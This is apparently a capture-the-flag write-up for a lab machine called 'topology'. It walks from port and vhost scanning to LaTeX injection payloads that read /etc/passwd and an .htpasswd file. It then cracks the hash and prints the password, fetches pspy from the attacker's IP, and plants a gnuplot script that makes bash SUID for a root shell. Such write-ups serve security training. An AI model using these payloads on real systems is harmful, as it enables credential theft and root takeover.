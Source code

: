 # topology

| Hostname   | Difficulty |
| ---        | ---        |
| topology       |            |

Machine IP: 10.10.10.xx :

```bash
TARGET=10.10.10.10       # topology IP address
ATTACKER=10.10.14.10     # attacker IP
```

## Initial Reconnaissance

### Ports and services

```bash
nmap -T4 topology.htb -p- -sC -sV
```

```text
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP service

firefox http://topology.htb &

![](assets/home.png)

We can notice a few users from Staff:

- Professor Lilian Klein, PhD: Head of Topology Group
- Vajramani Daisley, PhD: Post-doctoral researcher, software developer
- Derek Abrahams, BEng : Master's student, sysadmin

In the "Software projects" section, there is a link : "[LaTeX Equation Generator](http://latex.topology.htb/equation.php) - create .PNGs of LaTeX equations in your browser". This leads to a vhost : "http://latex.topology.htb/equation.php".

Nothing more if found here, but we can look at other virtual hosts :

```shell
wfuzz -H "Host: FUZZ.topology.htb" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,/opt/seclists/Discovery/DNS/subdomains-top1million-5000.txt  topology.htb | grep -v "6767 Ch"
```

The grep here will remove most of pages returned with the size of 6767 Ch.

output :

```text
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
000000061:   200        5 L      9 W        108 Ch      "stats"
```

We can add this server to the hosts file :

```shell
echo "10.10.11.217 dev.topology.htb" >> /etc/hosts
echo "10.10.11.217 latex.topology.htb" >> /etc/hosts
echo "10.10.11.217 stats.topology.htb" >> /etc/hosts
```

When accessing with firefox the dev vhosts, this require an authentication :

![](assets/dev_authentication.png)

the stats vhosts provide a graphic :

![](assets/stats.png)

The latex vhost :

![](assets/latex.png)

## Initial access

### Exploitation

From Hacktricks, we can build some [LateX Injection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection)

```latex
\input{/etc/passwd}
```

Give a message : "Illegalcommand detected. Sorry.". There is somr kind of filtering

But :

```latex
\lstinputlisting{/etc/passwd}
```

give an error :

```text
The image "http://latex.topology.htb/equation.php?eqn=%5Clstinputlisting%7B%2Fetc%2Fpasswd%7D&submit=" cannot be displayed because it contains errors.
```

Another resource ( https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/LaTeX%20Injection ) show example with `$` sign at the beginig and the end of the injection.

Trying :

```latex
$\lstinputlisting{/etc/passwd}$
```

Give a result :

![](assets/pdf_exploit.png)

We have user "vdaisley".

Since we can read files, we could try to read the `.htpasswd` file that should contains some credentials for the dev vhosts :


Trying to guess this file location, since the default html files are located in `/var/www/html/index.html`. This is probably an apache instance with the user "www-data". So:

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

Give 

![](assets/htpasswd.png)

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

This hash format is specifyed by apache :
https://httpd.apache.org/docs/2.4/misc/password_encryptions.html

> MD5: "$apr1$" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password.

This can be broken with :

```shell
hashcat -m 1600 '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' /usr/share/wordlists/rockyou.txt
```

```text
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20 
```

trying SSH with this credential :

```shell
ssh vdaisley@topology.htb
```

and we have a shell.

### Maintaining access

## Post-Exploitation

### Host Reconnaissance

```shell
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
updog
```

```shell
wget http://10.10.14.19:9090/pspy64
chmod +x ./pspy64
./pspy64
```

```text
2023/07/01 16:50:01 CMD: UID=0     PID=22239  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22238  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22241  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22242  | 
2023/07/01 16:50:01 CMD: UID=0     PID=22247  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22246  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22245  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22251  | cut -d   -f3,7 
2023/07/01 16:50:01 CMD: UID=0     PID=22250  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22249  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22248  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22252  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/07/01 16:50:01 CMD: UID=0     PID=22253  | gnuplot /opt/gnuplot/loadplot.plt 
2023/07/01 16:50:01 CMD: UID=0     PID=22257  | sed s/,//g 
2023/07/01 16:50:01 CMD: UID=0     PID=22256  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22255  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22254  | uptime 
2023/07/01 16:50:01 CMD: UID=0     PID=22258  | tail -60 /opt/gnuplot/netdata.dat 
2023/07/01 16:50:01 CMD: UID=0     PID=22259  | tail -60 /opt/gnuplot/loaddata.dat 
2023/07/01 16:50:01 CMD: UID=0     PID=22260  | gnuplot /opt/gnuplot/networkplot.plt 
```

`find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;` is a search for plt files

This is follewed by `gnuplot /opt/gnuplot/loadplot.plt` supposing `loadplot.plt` has been found and is been executed.

### Privilege Escalation

From the documentation :
http://gnuplot.info/docs_5.5/loc18483.html

we can craft a payload :

```bash
cat <<EOF > /opt/gnuplot/xplot.plt
system "chmod +s /usr/bin/bash"
EOF
```

After some time, the payload is executed :

```bash
ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```

We can have a root shell:

```bash
bash -p
```

